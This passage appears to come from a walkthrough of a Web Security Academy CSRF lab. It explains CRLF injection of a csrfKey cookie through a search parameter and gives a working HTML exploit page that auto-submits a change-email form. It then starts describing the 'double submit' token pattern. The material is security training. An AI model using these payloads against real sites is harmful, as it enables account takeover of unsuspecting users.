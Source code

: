 ```
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

- `%0d%0a` --- URL encoding for __carriage return (CR)__ and __line feed (LF)__ which is `\r\n` in ASCII. 
- `%3b` --- is __semicolon__ or `;`.
- `%20` --- is a __whitespace__.

_Decoded URL:_

```
/?search=test
Set-Cookie: csrfKey=YOUR-KEY; SameSite=None
```

Now let's borrow an HTML template from one of the above labs, include both email and CSRF token inputs, but __DO NOT__ include the `<script>document.forms[0].submit();</script>`. Instead replace it with:

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="obscure@email.com">
    <input type="hidden" name="csrf" value="[[...token...]">
</form>
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

This will perform a search, inject our `csrfKey` cookie through search request and submit this `/change-email` form with given properties (`email` and `csrf`). 

Now turn on __intercept__ in Burp Proxy and perform an "Update email" request. Save `csrfKey` cookie value and `csrf` parameter value from request body and drop this request.

Use these in the HTML template above and also add an email you haven't used before. 

Click "Go to exploit server" and paste the resulting HTML into the "Body" section of the form. Click "Store".

Click "Deliver exploit to victim" to solve the lab. 

> NOTE: Check out [walkthrough](csrf_lab05_zaproxy.md) of this lab in OWASP Zed Attack Proxy

### CSRF token is simply duplicated in a cookie

In another variation of the previous vulnerability, some applications avoid keeping any server-side record of issued CSRF tokens. Instead, they use a method known as the __"double submit"__ strategy. In this approach, the application sends the same CSRF token to the client in two places: one as a cookie and the other as a request parameter (typically in a form). When a request is received, the server simply checks whether the value in the request matches the one in the cookie. This technique is often promoted for its simplicity and the fact that it doesn't require maintaining server-side state. 

_Example request:_

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```
